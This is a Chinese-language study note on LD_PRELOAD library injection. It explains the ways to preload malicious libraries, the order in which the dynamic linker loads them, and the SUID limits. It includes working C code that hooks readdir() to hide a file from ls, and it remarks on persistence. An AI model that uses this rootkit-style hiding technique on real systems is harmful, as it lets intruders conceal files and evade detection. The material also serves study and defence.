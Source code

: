 

# LD_PRELOAD 基础

## 1.常用方法

- 将恶意动态链接库通过 LD_PRELOAD 环境变量进行加载

- 将恶意动态链接库通过/etc/ld.so.preload 配置文件进行加载

- 修改动态链接器来实现恶意功能

方法区别：

| 方法          | 已运行进程 | 新启动进程 | 子进程 | 持久性 | 检测难度 |
| ------------- | ---------- | ---------- | ------ | ------ | -------- |
| LD_PRELOAD    | ❌          | ✅          | ✅      | 低     | 容易     |
| ld.so.preload | ❌          | ✅          | ✅      | 高     | 中等     |
| 修改链接器    | ❌          | ✅          | ✅      | 最高   | 困难     |

环境变量区分：

| 特性         | LD_PRELOAD             | LD_LIBRARY_PATH      |
| ------------ | ---------------------- | -------------------- |
| **作用**     | 指定要 **强制加载** 的库 | 指定 **搜索库** 的路径 |
| **用途**     | 明确加载特定库文件     | 告诉链接器去哪找库   |
| **优先级**   | 符号解析最高优先级     | 只影响搜索位置       |
| **使用场景** | 函数拦截、调试         | 指定库的位置         |



## 2.动态链接库加载的完整顺序

```markdown
程序启动 (execve)
    ↓
1. 内核加载 ELF 解释器 (/lib64/ld-linux-x86-64.so.2)
    ↓
2. 动态链接器开始工作
    ↓
【第一阶段:预加载库】
3. LD_PRELOAD 环境变量指定的库
    ↓
4. /etc/ld.so.preload 文件中列出的库
    ↓
【第二阶段:程序依赖库】
5. 程序 DT_NEEDED 段中直接依赖的库 (按顺序)
    ↓
6. 依赖库的依赖库 (递归,深度优先搜索)
    ↓
【第三阶段:系统库】
7. C运行时库 (libc.so.6) - 如果还没加载
    ↓
8. 其他系统基础库
    ↓
【第四阶段:符号解析和重定位】
9. 按加载顺序进行符号绑定
    ↓
10. 执行所有库的初始化函数 (.init, constructors)
    ↓
11. 转移控制到程序入口点 (_start)
```

符号解析优先级：虽然 vdso 最先加载，但在符号解析时的优先级是：

- LD_PRELOAD 的库
- /etc/ld.so.preload 的库
- 程序本身的符号
- 按加载顺序的依赖库
- linux-vdso.so.1（通常只包含系统调用相关符号）

实验测试：PIC 可在任意位置加载的代码，主要用于动态库与安全随机化（ASLR）

![image-20251020201822076](./assets/1.LD_PRELOAD基础/image-20251020201822076.png)

```markdown
【内核阶段 - 在动态链接器运行前】
0. linux-vdso.so.1           ← 内核映射,最早存在
1. ld-linux-x86-64.so.2      ← 内核启动动态链接器

【动态链接器阶段】  
2. LD_PRELOAD 指定的库        ← ./test.so
3. /etc/ld.so.preload 的库
4. 程序 DT_NEEDED 依赖        ← libselinux.so.1
5. 程序 DT_NEEDED 依赖        ← libc.so.6
6. 递归依赖                   ← libpcre2-8.so.0 (libselinux的依赖)
```

注意：

* 出于安全考虑，对于设置了 SUID 权限位的程序，LD_PRELOAD 会被忽略。由于函数插入几乎可以让你让程序执行任何你想让它做的事情，因此 Linux 会阻止你修改以其他用户或组身份运行的程序的行为。其次，你无法插入内部库函数调用，因为这些调用在运行时之前就已经解析了
* /etc/ld.so.preload 是系统级配置文件, 适用于所有进程并影响整个系统, 访问此文件需要 root 权限。而 LD_PRELOAD 是环境变量, 允许单个用户在每个进程的基础上为特定可执行文件或命令指定要预加载的库, 因此不需要 root 权限即可使用。由 LD_PRELOAD 定义的库会在 /etc/ld.so.preload 中的库之前加载



## 3.对 ls 程序实验

程序源码仓库：https://github.com/coreutils/coreutils

main 函数中调用的 print_dir 函数中的 wihle 循环中，readdir() 返回参数 dir 目录流的下个目录进入点，当返回 NULL 时, 表示已到达目录末尾	

![image-20251020210721746](./assets/1.LD_PRELOAD基础/image-20251020210721746.png)

劫持该函数使得 ls 程序不显示指定的程序名：

* dlsym 打开一个指向动态库的句柄并获取原始 readdir 函数的地址
* 参数的值被设置为 RTLD_NEXT，那么该函数返回下一个共享对象中名为 name 的符号的运行时地址，下一个共享对象是指下一个定义了名称为 name 的符号的共享库，而不是下一个加载的共享库

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
// 原始 readdir 函数的函数指针类型定义
typedef struct dirent* (*ls_t)(DIR*);
// 拦截的 readdir 函数
struct dirent* readdir(DIR* dirp) {
  // 获取原始 readdir 地址
  ls_t original_readdir = (ls_t)dlsym(RTLD_NEXT, "readdir");
  struct dirent* entry;
  do {
    // 调用原始函数获取下一个目录条目
    entry = original_readdir(dirp);
    // 检查是否是我们要隐藏的文件
    if (entry != NULL && strcmp(entry->d_name, "hack.c") == 0) {
      // 通过再次调用原始函数跳过该文件
      entry = original_readdir(dirp);
    }
  } while (entry != NULL && strcmp(entry->d_name, "hack.c") == 0);
  return entry;
}
```

测试达到预期效果：

![image-20251021090755469](./assets/1.LD_PRELOAD基础/image-20251021090755469.png)

如果需要持久化利用，可以写入环境变量当中
